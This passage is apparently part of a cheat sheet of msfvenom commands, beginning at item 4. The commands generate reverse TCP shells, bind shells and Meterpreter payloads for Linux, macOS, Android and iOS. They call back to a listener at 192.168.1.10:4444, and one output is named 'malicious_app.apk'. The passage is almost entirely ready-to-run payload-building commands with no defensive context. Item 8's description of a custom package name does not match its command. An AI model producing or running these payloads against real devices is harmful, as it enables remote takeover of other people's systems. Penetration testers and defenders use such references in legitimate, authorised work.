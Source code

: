 
### **Linux Payloads**

#### 4. Reverse TCP Shell
Generates a reverse TCP shell payload for Linux:
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f elf > reverse_shell.elf
```

#### 5. Bind Shell Payload
Generates a bind shell payload for Linux:
```bash
msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f elf > bind_shell.elf
```

---

### **MacOS Payloads**

#### 6. Reverse TCP Meterpreter
Creates a reverse TCP Meterpreter payload for MacOS:
```bash
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f macho > reverse_shell.macho
```

---

### **Android Payloads**

#### 7. Reverse TCP Meterpreter Payload
Generates an APK file with a reverse TCP Meterpreter payload:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 R > malicious_app.apk
```

#### 8. Custom Package Name
You can add a custom package name:
```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 --platform android -a dalvik -o malicious_app.apk
```

---

### **iOS Payloads**

#### 9. Reverse TCP Shell
Creates a reverse shell payload for iOS:
```bash
msfvenom -p apple_ios/aarch64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f macho > reverse_shell.macho
```

---
